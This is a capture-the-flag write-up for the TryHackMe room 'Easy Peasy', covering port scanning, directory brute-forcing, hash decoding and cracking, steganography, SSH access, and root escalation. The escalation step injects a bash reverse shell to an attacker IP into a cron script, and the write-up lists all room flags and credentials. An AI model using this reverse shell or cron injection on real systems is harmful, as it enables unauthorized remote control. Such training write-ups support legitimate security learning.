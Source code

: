 # TryHackMe — Easy Peasy Write-up

 **Overview**

- Room: Easy Peasy  
- Difficulty: Easy  
- Tags: Enumeration, Web Exploitation, Steganography, Privilege Escalation  

---

##  Enumeration with Nmap

Scanning the target machine:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

Result:  
- 80/tcp → nginx 1.16.1  
- 6498/tcp → ssh  
- 65524/tcp → apache  

### Answers
1. How many ports are open? → **3**  
2. Version of Nginx? → **1.16.1**  
3. Service on the highest port? → **Apache**

---

##  Exploiting the Machine

### Task 1 – Flag 1
Using **GoBuster**:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://{IP}:80/
```

Found directory `/hidden` → `/whatever`.  
In the page source code we discovered a hidden hash.  
Decoded it using **CyberChef** → `From Base62`.  

 Flag 1 → **flag{f1rs7_fl4g}**

---

### Task 2 – Flag 2
Open:

```
http://{IP}:65524/robots.txt
```

Inside we find a strange User-Agent. Decoded it on md5hashing.net → got the flag.  

 Flag 2 → **flag{1m_s3c0nd_fl4g}**

---

### Task 3 – Flag 3
Check page source:

```
http://{IP}:65524
```

A hash was found → decoded with Base62.  

 Flag 3 → **flag{9fdafbd64c47471a8f54cd3fc64cd312}**  
Hidden path: `/n0th1ng3ls3m4tt3r`

---

### Task 4 – Hash Cracking
Save the hash into `password.txt`.  
Crack it using **John the Ripper** with the custom wordlist `easypeasy.txt`:

```bash
john --format=gost --wordlist=easypeasy.txt password.txt
```

Password: **mypasswordforthatjob**

---

### Task 5 & 6 – Steganography
In the web directory we found **binarycodepixarbay.jpg**.  
Check it with **stegseek**:

```bash
stegseek binarycodepixarbay.jpg easypeasy.txt
```

Result: extracted `secrettext.txt` with username and password.  

- Username: **boring**  
- Password (decoded from binary): **iconvertedmypasswordtobinary**

---

### Task 7 – User Flag
Connect via SSH:

```bash
ssh boring@{IP} -p 6498
```

Enter the password → access granted.  
Inside the home directory we find `user.txt`.  
The flag was encoded in ROT13 → decoded with CyberChef.  

 User Flag → **flag{n0wits33msn0rm4l}**

---

## 🚀 Privilege Escalation

Upload and run **linpeas.sh**.  
Found script `.mysecretcronjob.sh`. It had only comments, so we injected a reverse shell from [revshells.com](https://www.revshells.com/).

Example payload:

```bash
bash -i >& /dev/tcp/{Your_IP}/4242 0>&1
```

Start listener:

```bash
nc -lvnp 4242
```

When the connection popped, escalate privileges:

Now we are root.  
In the root directory we find `.root.txt`.  

 Root Flag → **flag{R00t_Acc3ss_C0mpl3t3}**

---

##  Summary of Flags

1. flag{f1rs7_fl4g}  
2. flag{1m_s3c0nd_fl4g}  
3. flag{9fdafbd64c47471a8f54cd3fc64cd312}  
4. Password cracked → mypasswordforthatjob  
5. stegseek → secrettext.txt (user: boring, pass: iconvertedmypasswordtobinary)  
6. User flag → flag{n0wits33msn0rm4l}  
7. Root flag → flag{R00t_Acc3ss_C0mpl3t3}

---


